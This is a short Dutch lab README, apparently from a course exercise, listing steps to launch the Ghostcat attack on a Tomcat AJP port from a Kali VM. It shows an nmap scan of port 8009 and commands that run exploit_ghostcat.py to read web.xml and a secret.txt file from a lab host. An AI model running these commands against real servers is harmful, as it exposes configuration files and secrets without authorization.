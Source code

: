 # Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren (KALI VM)

- 4.1) Start de kali vm (indien deze nog niet aan staat):
- 4.2) zorg dat het setup_tomcat.sh bestand op de ubuntu vm staat (bv Downloads -> cd Downloads)
- 4.3) open terminal
- 4.4) sudo systemctl start ssh
- 4.5) sudo systemctl enable ssh
- 4.6) cd Downloads
- 4.7) chmod +x exploit_ghostcat.py
- 4.8) nmap 10.10.10.4 -p 8009
- 4.9) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.10) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read
